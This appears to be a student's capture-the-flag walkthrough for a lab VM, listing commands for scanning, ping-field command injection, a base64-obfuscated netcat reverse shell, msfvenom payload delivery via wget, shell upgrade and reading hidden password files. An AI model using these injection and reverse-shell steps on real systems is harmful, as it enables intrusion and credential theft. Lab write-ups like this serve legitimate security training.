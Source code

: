 ﻿# Hacklabs 192.168.56.110
## Andrea Zonnekus 18758119

sudo netdiscover -i eth0

![](hacklabs_noname_steps/Aspose.Words.68090ecf-3118-4aa5-ad42-2c3ecc689afc.001.png)

sudo nmap -O -sV -sC -F 192.168.56.110 -oN initial\_scan

![](hacklabs_noname_steps/Aspose.Words.68090ecf-3118-4aa5-ad42-2c3ecc689afc.002.png)

gobuster dir fuzz -u 192.168.56.110 -w /usr/share/dirb/wordlists/big.txt -o host\_dir\_enum

![](hacklabs_noname_steps/Aspose.Words.68090ecf-3118-4aa5-ad42-2c3ecc689afc.003.png)

gobuster dir fuzz -x php -u 192.168.56.110 -w /usr/share/dirb/wordlists/big.txt -o host\_dir\_enum

![](hacklabs_noname_steps/Aspose.Words.68090ecf-3118-4aa5-ad42-2c3ecc689afc.004.png)



go to some of these pages

![](hacklabs_noname_steps/Aspose.Words.68090ecf-3118-4aa5-ad42-2c3ecc689afc.005.png)

echo "ls" | base64

![](hacklabs_noname_steps/Aspose.Words.68090ecf-3118-4aa5-ad42-2c3ecc689afc.006.png)

ping 127.0.0.1 | `echo "bHMK" | base64 -d`

![](hacklabs_noname_steps/Aspose.Words.68090ecf-3118-4aa5-ad42-2c3ecc689afc.007.png)

echo "ls -lah" | base64

![](hacklabs_noname_steps/Aspose.Words.68090ecf-3118-4aa5-ad42-2c3ecc689afc.008.png)

ping 127.0.0.1 | `echo "bHMgLWxhaAo=" | base64 -d`

![](hacklabs_noname_steps/Aspose.Words.68090ecf-3118-4aa5-ad42-2c3ecc689afc.009.png)

ping 127.0.0.1 | `echo 'bmMudHJhZGl0aW9uYWwgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguNTYuMTAxIDQ0NDQK' | base64 -d`

![](hacklabs_noname_steps/Aspose.Words.68090ecf-3118-4aa5-ad42-2c3ecc689afc.010.png)

![](hacklabs_noname_steps/Aspose.Words.68090ecf-3118-4aa5-ad42-2c3ecc689afc.011.png)

lscpu

![](hacklabs_noname_steps/Aspose.Words.68090ecf-3118-4aa5-ad42-2c3ecc689afc.012.png)

![](hacklabs_noname_steps/Aspose.Words.68090ecf-3118-4aa5-ad42-2c3ecc689afc.013.png)

sudo msfvenom -p linux/x86/shell/reverse\_tcp -o shell LHOST=192.168.56.101 LPORT=8000

sudo python -m http.server 80

wget <http://192.168.56.101/shell>

![](hacklabs_noname_steps/Aspose.Words.68090ecf-3118-4aa5-ad42-2c3ecc689afc.014.png)

don’t know why but doesn’t work so 

ls /usr/share/applications | grep python

![](hacklabs_noname_steps/Aspose.Words.68090ecf-3118-4aa5-ad42-2c3ecc689afc.015.png)

python3 -c 'import pty; pty.spawn("/bin/bash")'

![](hacklabs_noname_steps/Aspose.Words.68090ecf-3118-4aa5-ad42-2c3ecc689afc.016.png)



cat yash/flag1.txt

![](hacklabs_noname_steps/Aspose.Words.68090ecf-3118-4aa5-ad42-2c3ecc689afc.017.png)

ls haclabs -lah

![](hacklabs_noname_steps/Aspose.Words.68090ecf-3118-4aa5-ad42-2c3ecc689afc.018.png)

locate .pass

cat /usr/share/hidden/.passwd

![](hacklabs_noname_steps/Aspose.Words.68090ecf-3118-4aa5-ad42-2c3ecc689afc.019.png)

![](hacklabs_noname_steps/Aspose.Words.68090ecf-3118-4aa5-ad42-2c3ecc689afc.020.png)

![](hacklabs_noname_steps/Aspose.Words.68090ecf-3118-4aa5-ad42-2c3ecc689afc.021.png)

![](hacklabs_noname_steps/Aspose.Words.68090ecf-3118-4aa5-ad42-2c3ecc689afc.022.png)

<https://andreafortuna.org/2018/05/16/exploiting-sudo-for-linux-privilege-escalation/>

![](hacklabs_noname_steps/Aspose.Words.68090ecf-3118-4aa5-ad42-2c3ecc689afc.023.png)

![](hacklabs_noname_steps/Aspose.Words.68090ecf-3118-4aa5-ad42-2c3ecc689afc.024.png)
